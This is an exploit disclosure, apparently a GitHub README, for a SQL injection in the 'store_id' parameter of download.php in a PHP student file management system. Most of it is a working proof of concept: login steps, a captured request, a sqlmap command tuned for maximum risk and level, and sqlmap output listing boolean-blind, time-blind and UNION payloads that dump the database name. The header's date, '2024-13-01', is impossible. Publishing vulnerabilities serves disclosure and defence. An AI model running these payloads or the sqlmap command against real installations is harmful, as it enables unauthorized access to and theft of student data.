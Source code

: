 # 2024_Student_File_System_SQL_-Injection

+ **Exploit Title:** 2024_Student_File_System_SQL_-Injection
+ **Date:** 2024-13-01
+ **Exploit Author:** Burak Sevben
+ **Vendor Homepage:** https://code-projects.org/student-file-management-system-in-php-with-source-code/
+ **Software Link:** https://download.code-projects.org/details/3e3502a1-11ea-4e87-9d05-12d6204789d6
+ **Version:** 1.0(2024)
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** Reported, waiting for CVE number

## Description:
Student File Managment System 2024 allows SQL Injection via parameter 'store_id' in "/SFMS/download.php?store_id=5". Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit latest vulnerabilities in the underlying database

## Proof of Concept:
+ Go to the Student Dashboard: "http://localhost/sfms/"
+ Fill in the Student ID and Password with `1353`:`password` and login.
+ Student Details: 
"http://localhost/sfms/student_profile.php"
+ Copy the link to the File Download button. 
+ And receive the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:
```
GET /SFMS/download.php?store_id=5 HTTP/1.1
Host: localhost
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
```
+ Use sqlmap to exploit. In sqlmap, use 'store_id' parameter to dump the database.
```
sqlmap -r r.txt -p store_id --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
Parameter: store_id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: store_id=5' AND 8329=8329-- xGzO

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: store_id=5' AND (SELECT 2163 FROM (SELECT(SLEEP(5)))YwjC)-- nIjk

    Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
    Payload: store_id=-6687' UNION ALL SELECT NULL,CONCAT(0x71627a7171,0x726c465a49424e6674617248747642664f534f716f674e774e59424f6f66456e424249774a4b797a,0x7178766271),NULL,NULL,NULL-- -
```
+ Current Database : `db_sfms`
![Ekran görüntüsü 2024-01-13 165828](https://github.com/BurakSevben/2024_Student_File_System_SQL_-njection/assets/117217689/7ddff51a-1870-45f9-b901-f5096e16dd88)


